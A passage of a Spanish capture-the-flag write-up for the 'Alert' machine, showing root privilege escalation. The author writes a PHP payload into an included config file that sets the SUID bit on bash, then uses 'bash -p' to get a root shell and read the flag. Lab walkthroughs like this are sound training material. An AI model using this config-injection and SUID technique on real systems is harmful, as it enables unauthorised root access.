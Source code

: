 Vamos a comprobar si `/opt/website-monitor/monitor.php` importa algún archivo de la carpeta `config`.

```
cat /opt/website-monitor/monitor.php | grep config

include('config/configuration.php');
```

Importa el archivo `config/configuration.php`. Si podemos escribir en él, podríamos incluir un payload para, por ejemplo, darle privilegio `SUID` a `bash`.

Este va a ser el nuevo `config/configuration.php`:

```
<?php
    define('PATH', '/opt/website-monitor');
    system('chmod u+s /usr/bin/bash');
?>
```

Lo sobreescribimos con este oneliner:

```
echo -e "<?php\ndefine('PATH', '/opt/website-monitor');\nsystem('chmod u+s /usr/bin/bash');\n?>" > configuration.php
```

Ya deberíamos poder ejecutar la bash como `root`.

```
bash -p
```

Ahora solo queda leer la flag de `root` y así completar la máquina **Alert**.

```
cd /root
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.